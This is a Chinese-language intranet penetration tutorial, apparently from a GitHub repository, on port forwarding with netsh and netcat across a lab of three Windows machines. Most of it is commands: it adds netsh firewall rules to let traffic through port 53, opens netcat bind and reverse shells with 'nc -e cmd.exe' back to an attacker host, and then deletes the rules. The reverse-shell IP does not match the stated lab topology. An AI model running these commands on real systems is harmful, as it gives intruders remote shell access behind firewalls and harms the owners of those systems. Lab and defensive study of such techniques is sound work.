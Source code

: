 [TOC]


# 内网渗透
## 0） 工具
[netcat工具下载地址](https://eternallybored.org/misc/netcat/)

## 1） 端口转发

*拓扑结构：*

| 名字 | 公网/内网 | IP |
|--------|--------|--------|
|   Win7专业版     |   攻击机子     |192.168.44.129(假设为自己公网IP)
|   Windows2008     |   目标边界机子     |192.168.44.133(假设为目标公网IP)
|   Win7渗透专用     |   目标内网机子     |192.168.44.130 (假设为目标内网IP)




### 1.1 netsh
1. 正向连接
```
Windows2008命令：↓
  
  添加防火墙规则，允许外部来连接本地的 tcp 53 端口[入站允许]
Windows2008>netsh advfirewall firewall add rule name="nc bind shell" dir=in action=allow protocol=TCP localport=53
  
  -l 监听53端口，-e 创建shell
Windows2008>c:\>nc -lvp 53 -e cmd.exe
  
  结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc bind shell" dir=in protocol=TCP localport=53
```
```
Win7专业版命令：↓
  
  -n 连接Windows2008的53端口
ske7Plus>nc -nv 192.168.44.133 53
```
![Windows2008 监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc1.png)
![Win7专业版   连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc2.png)

2. 反向连接
```
Win7专业版命令：↓
  
  添加防火墙规则，允许 tcp 的 53 端口连入,然后再执行监听
ske7Plus>netsh firewall add portopening TCP 53 "nc reverse shell"
ske7Plus>nc -lvp 53
```
```
Windows2008命令：↓
  
  添加防火墙规则，允许本地的 tcp 53 端口主动往外连[出站允许]
Windows2008>netsh advfirewall firewall add rule name="nc reverse shell" dir=out action=allow protocol=TCP localport=53
  
  -n 连接目标ske7Plus的53端口，-e 创建shell
Windows2008>nc -nv 192.168.3.102 53 -e cmd.exe
  
  结束后删除防火墙规则
Windows2008>netsh advfirewall firewall delete rule name="nc reverse shell" dir=out protocol=TCP localport=53
```
![Win7专业版   监听53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc3.png)
![Windows2008 连接53端口](https://raw.githubusercontent.com/SkewwG/IntranetPenetration/master/imgs/nc/nc4.png)